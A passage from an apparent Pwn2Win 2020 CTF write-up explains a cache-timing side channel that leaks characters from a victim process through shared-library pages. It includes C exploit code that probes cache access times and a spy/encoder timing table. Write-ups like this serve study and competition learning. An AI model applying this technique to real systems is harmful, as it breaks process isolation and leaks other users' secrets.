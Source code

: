 So our exploit will be:
```
void watchOrder(wchar_t *base,unsigned char *set,char *output){
	register unsigned j,i;
	register unsigned used;
	register unsigned long time_fast;

	j=0;
	while (j<PROBE_AMMOUNT_ORDER){
	  for (i=0;set[i]!='\0';i++){
		used=set[i]-'-';

        //same access rules as in printTranslate
		time_fast=probe_timing((char *)(&base[G*used]));
	 	if(time_fast < 0xa0 ){
			output[j]=used+'-';
			j++;
		}	
	  }
	}
	output[j]='\0';
}
```
# Breaking process isolation
Because of COW, two process using the same shared library will be sharing the same phisical address, (so ASLR doesn't matter in this case). There will be 2 threads running concorrent: spy and encoder:

|time| thread | action | response time | result | 
|---|---|---|---|----|
|t0 | spy | probes 0xFF00FF00 | too long |inconclusive|
|t1 | spy | probes 0xFF010180 | too long | inconclusive|
|t2 | encoder| maccess 0xFF010400, goes to cache | too long | --- |
|t3 | spy  | probes 0xFF010400 | short, is on cache!  | leaked a letter!!! |

![Leaking sensitive info about the victim process](https://github.com/Jos3Luiz/pwn2win2020-stolen-backdoor-writeup/blob/master/images/flushdiagram.png)
